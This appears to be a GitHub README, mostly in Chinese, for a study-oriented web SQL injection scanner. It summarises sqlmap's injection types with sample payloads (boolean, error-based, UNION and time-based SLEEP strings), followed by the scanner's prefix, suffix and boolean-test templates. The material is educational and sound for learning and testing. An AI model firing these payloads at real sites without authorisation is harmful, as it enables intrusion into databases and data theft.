 # Web-Vulnerability-Scanner
Web Vulnerability Scanner: SQL
### 目的：熟悉SQL漏洞等常见Web漏洞原理，重点不在效率和使用，如果正八经儿检测，sqlmapapi甚至是各种工具就方便快捷
## 实现功能
1. 针对SQL注入漏洞、SQL盲注
2. 通过匹配报错出来的信息，可以正则判断出所用的数据库

## SQL注入总结（根据sqlmap）
## 注入方式
## 1. B: Boolean-based blind SQL injection（布尔型注入）<br>
### `Title: AND boolean-based blind - WHERE or HAVING clause`<br>
### `Payload: user=user1' AND 4676=4676 AND 'ZzOn'='ZzOn`
## 2. E: Error-based SQL injection（报错型注入）<br>
###  ` Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)`<br>
###  `Payload: user=user1' AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x716b786b71,(SELECT (ELT(7994=7994,1))),0x717a787871,0x78))s), 8446744073709551610, 8446744073709551610))) AND 'XSuv'='XSuv`
## 3. U: UNION query SQL injection（可联合查询注入）<br>
###  `Title: Generic UNION query (NULL) - 2 columns`<br>
###  `Payload: user=user1' UNION ALL SELECT CONCAT(0x716b786b71,0x6a6a6668724d514d5448686874774f486d634550735659727866554e65554e4e4f55504146706471,0x717a787871),NULL-- QvWZ`
## 4. S: Stacked queries SQL injection（可多语句查询注入）
## 5. T: Time-based blind SQL injection（基于时间延迟注入）<br>
###  `Title: MySQL >= 5.0.12 AND time-based blind`<br>
###  `Payload: user=user1' AND SLEEP(5) AND 'EJXX'='EJXX`
## 6. Q: inline_query(内联查询)


    
## SQL漏洞扫描代码实现
## ![avatar](https://github.com/GPSWiFi/SQL-injection/blob/master/1.png?raw=true)
## ![avatar](https://github.com/GPSWiFi/SQL-injection/blob/master/2.png?raw=true)
## 1. 判断注入位置：
  - 判断GET,POST方法:GET, POST = "GET", "POST"                           
  - HTTP报文的头部字段——>设置Cookie、User-Agent、Referer: COOKIE, UA, REFERER  = "Cookie", "User-Agent", "Referer"  
## 2. 前缀PREFIXES:
### PREFIXES = (" ", ") ", "' ", "') ", "\"")  
## 3. 后缀SUFFIXES:
### SUFFIXES = ("", "-- -", "#")     
## 4. 参数 :
### BOOLEAN_TESTS = ("AND %d=%d", "OR NOT (%d=%d)")  
### TAMPER_SQL_CHAR_POOL = ('(', ')', '\'', '"')                    
